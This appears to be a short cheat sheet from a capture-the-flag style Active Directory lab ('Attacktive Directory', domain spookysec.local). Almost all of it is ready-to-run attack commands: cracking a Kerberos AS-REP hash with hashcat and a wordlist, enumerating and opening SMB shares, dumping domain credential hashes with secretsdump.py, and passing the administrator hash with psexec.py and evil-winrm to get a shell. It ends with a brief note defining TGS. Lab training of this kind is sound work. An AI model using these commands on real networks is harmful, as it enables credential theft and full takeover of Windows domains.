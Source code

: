 

# ATTACKTIV DIRECTORY		
## CRACK THE HASH
The one i got in this case was : Kerberos 5 AS-REP etype 23
```bash	
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt --force 
```
## ENUM SHARES WITH SMBCLIENT
```bash
smbclient -L 10.10.72.208 --user svc-admin
```
	
## LOG INTO SHARES WITH SMBCLIENT
```bash
smbclient \\\\spookysec.local\\backup --user svc-admin
```
- spookysec.local can also be the IP address
- admin is a valid user and we have his password

## ENUM FOR ADDITIONNAL INFORMATIONS WITH secretdump.py
(Admit that we have password for the user backup)
```bash
secretsdump.py -just-dc backup@spookysec.local
```
	
## LOG IN WITH PSEXEC BY "PASSING THE HASH"
```bash
psexec.py -hashes PUT_THE:HASH_HERE administrator@spookysec.local
get cmd
```

## LOG IN WITH EVIL-WINRM BY "PASSING THE HASH"
```bash
evil-winrm -u administrator -H PUT_THE_HASH_HERE -i spookysec.local
```
- /!\ This only needs the second part of the NTLM hash
- get powershell
	


# KERBEROAST
# Definitions : 
## TGS : Ticket Granting Service
- Used by the KDC
- It take a TGT and return a ticket to a machine on the domain
